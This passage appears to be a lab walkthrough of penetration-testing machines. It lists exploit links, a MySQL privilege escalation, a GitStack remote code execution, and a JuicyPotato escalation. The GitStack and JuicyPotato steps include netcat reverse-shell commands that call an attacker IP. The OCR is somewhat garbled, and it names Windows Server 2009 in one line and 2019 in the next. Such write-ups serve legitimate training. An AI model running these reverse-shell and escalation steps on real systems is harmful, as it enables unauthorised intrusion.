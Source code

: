 https://github.com/jm33-m0/CVE-2018-7750/blob/master/rce.py
1.  User shell!
Privilege Escalation to Root
1. Follow https://www.exploit-db.com/exploits/1518
2. Check /etc/mysql/mariadb.conf.d/50-server.cnf and /etc/mysql/my.cnf
3. Change the line “user=mysql” to “user=root” in the file /etc/my.cnf.
4. mysql -u root -p
5. You may follow this
https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-fu
nctions-and-setuid-binaries/
1. Root shell!

```bash
V1RUS (.84)
```
Operating SystemWindows
Points25
Similar Machine (User)
Similar Machine (Root)
HackTheBox’s Bounty
Exploit in Getting User
1. The https://192.168.XX.84/ is running a GitStack instance that is vulnerable to RCE -
https://www.exploit-db.com/exploits/43777
1. Change the value of IP and command variable.
2. command = "C:/GitStack/gitphp/nc.exe 192.168.XX.43 1337 -e cmd.exe"
3. User shell!
Privilege Escalation to Root
1. The machine is running Windows Server 2009 and the SeImpersonatePrivilege is
enabled.
1. Download JuicyPotato - https://github.com/ohpe/juicy-potato and send it to target
machine
1. Upload a nc binary to target machine and run the command: echo
C:/GitStack/gitphp/nc.exe 192.168.XX.43 1338 -c cmd.exe > rev.bat
1. Find CLSID for Windows Server 2019
2. Run JuicyPotato.exe -l 1338 -p C:\GitStack\gitphp\rev.bat -t * -c
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
1. Root shell!

```bash
Bengine (.85)
```
Operating SystemWindows
Points20
Similar Machine (User)TryHackMe’s HackPark
Similar Machine (Root)
Exploit in Getting User
1. Nmap reveals hidden directory in robots.txt - /blogengine
2. Look for exploits in searchsploit or follow this
https://medium.com/@nickbhe/tryhackme-hackpark-writeup-db34b7957bef
1. User shell!
Privilege Escalation to Root
1. Vulnerable to SeCreateTokenPrivilege
2. Follow https://www.greyhathacker.net/?p=1025
3. Root shell!
